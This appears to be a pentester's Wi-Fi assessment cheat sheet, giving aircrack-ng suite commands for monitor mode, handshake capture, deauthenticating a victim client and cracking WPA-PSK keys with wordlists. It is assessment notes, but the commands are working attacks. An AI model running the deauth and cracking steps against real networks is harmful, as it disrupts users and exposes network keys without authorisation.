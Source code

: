 # Wi-Fi Assessment Techniques

These are techniques that I have found to work during Wi-Fi assessments (discovery, collection, attack, and crack). This isn't an "end all, be all" list.</br>

# Hardware:
* Need Atheros chipset in the wireless adapter
	* [Check wireless card](https://www.aircrack-ng.org/doku.php?id=compatible_cards)
* Wireless cards that I have used and work:
	* TP-Link TL-WN722N
		* has to be earlier than version 2 due to TP-Link updating the chips on the adapters.
	* Alfa AWUS051NH

# Configuration: System Setup with Hardware
* Might need to kill Network Manager
```
/etc/init.d/network-manager status
```
```
/etc/init.d/network-manager stop
```
* Ensure hardware is connected
```
lsusb
```
* Check wireless status of network adapter
```
iwconfig
```
* If need to bring up the interface
```
ifconfig wlan0 up
```
* This is an optional step: can stay in Managed mode and scan to do light discovery
```
iwlist wlan0 scanning
```

# Monitor Mode
* This sets wlan0 into Monitor mode. This sets a new interface, typically, mon0 or a variation of ie. wlanmon0
```
airmon-ng start wlan0
```
* Watch aircrack-ng's output of errors. Might need to run the following to kill specific process that hinder aircrack-ng.
```
airmon-ng check kill
```
* Monitor for traffic on Monitor interface (i.e. mon0)
```
airodump-ng mon0 
```
* Stopping Monitor Mode when needed
```
airmon-ng stop wlan0mon
```

# Capture traffic
* Interface will your monitor interface that was set above i.e. mon0
```
airodump-ng -c <Channel> --bssid <AP_MAC> -w <File_Prefix> <interface>
```

# WPA-PSK Attack
* Attacking WPA-PSK - Goal: acquire PSK (pre-shared key)
- Need to identify:
	* Name of the wireless network (ESSID)
	* MAC address of the AP (BSSID)
	* Channel that the AP
	* Victim MAC
	* need to capture 4 way handshake
	* Then crack - see below

# Deauth Attack
* In one terminal collect
``` 
airodump-ng -c <CHANNEL> --bssid  <AP_MAC> -w <FILE_PREFIX> <INTERFACE>
```
* In another termainl deauth
```
aireplay-ng --deauth 25 -a <AP_MAC> -c <VICTIM_MAC> <INTERFACE>
```

# Cracking
* Crack with John the Ripper
```
/usr/sbin/john --rules -w=/usr/share/wordlists/rockyou.txt --stdout | aircrack-ng -w - -e <essid> capture.cap
```
* Brute-Force to get the WPA Key (assumption is the packet capture contains the 4 way handshake)
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture.pcap
```
* I've heard hashcat is more effective but I've have not tried this method.

# Wireshark Tips
* Don't forget to add encryption key information to Wireshark
	* From Menu options: Edit->Preferences->IEEE 802.11
